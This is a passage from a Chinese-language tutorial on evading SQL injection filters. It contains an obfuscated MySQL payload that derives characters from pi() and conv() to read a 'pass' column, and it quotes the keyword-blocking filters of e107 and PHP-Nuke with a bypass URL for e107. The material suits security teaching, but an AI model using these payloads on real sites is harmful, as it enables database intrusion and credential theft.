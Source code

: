 上面两张图第一张是不能使用数字时通过使用数学函数得到某个数字的值第二张则是这些数字对应的 36 进制的值因此有时候一个很简单的表达式可能会很复杂或者非常长其实际就是计算 mod(a,b)

```
(mod(length(trim(leading(concat(lower(conv(version()*(true+pi()),pi()*pi(),pow(pi(),pi()))),lower(conv(pi()*pi()*pi()-pi()-pi(),pi()*pi(), pow(pi(),pi()))),lower(conv(pi()*version(),pi()*pi(),pow(pi(),pi()))),conv(version()*(true+pi()),pi()*pi(),pow(pi(),pi())),lower(conv(pi()*pi()*pi()-pi()-pi(),pi()*pi(),pow(pi(),pi()))),lower(conv(pi()*version(),pi()*pi(),pow(pi(),pi()))),lower(conv(ceil(pi()*version())+true,pi()*pi(),pow(pi(), pi()))),lower(conv(ceil((pi()+ceil(pi()))*pi()),pi()*pi(),pow(pi(),pi()))),lower(conv(ceil(pi())*ceil(pi()+pi()),pi()*pi(),pow(pi(),pi()))),conv(ceil(pi()*version()),pi()*pi(),pow(pi(),pi())),lower(conv(ceil(pi()*pi()+pi()),pi()*pi(),pow(pi(),pi()))),lower(conv(ceil(version()*version()),pi()*pi(),pow(pi(),pi()))),lower(conv(ceil(pi()*pi()+pi()),pi()*pi(),pow(pi(),pi())))))from(pass))),length(pass)) 
```

## 0x04 延伸及测试向量示例

* * *

```
a) CMS 绕过实例
b) WAF 绕过示例
c) SQLi Filter Evasion Cheat sheet
d) 测试向量 
```

### a) Web 应用绕过示例

#### 1\. e107 CMS

```
$inArray = array("'", ";", "/**/", "/UNION/", "/SELECT/", "AS "); 
if (strpos($_SERVER['PHP_SELF'], "trackback") === false) { 
foreach($inArray as $res) { 
if(stristr($_SERVER['QUERY_STRING'], $res)) { 
die("Access denied."); 
}}} 
```

Bypass:

```
vuln.php/trackback?inject=UNI%6fN SELECT 
```

#### 2\. PHP-Nuke CMS

```
if(isset($_SERVER['QUERY_STRING']) 
&& (!stripos($_SERVER['QUERY_STRING'], "ad_click"))) { 
$queryString = $_SERVER['QUERY_STRING']; 
if ( stripos($queryString, '%20union%20') 
OR stripos($queryString, '/*') 
OR stripos($queryString, '*/union/*') 
OR stripos($queryString, '+union+') 
OR stripos($queryString, 'concat')) { die('Illegal Operation'); } 
```
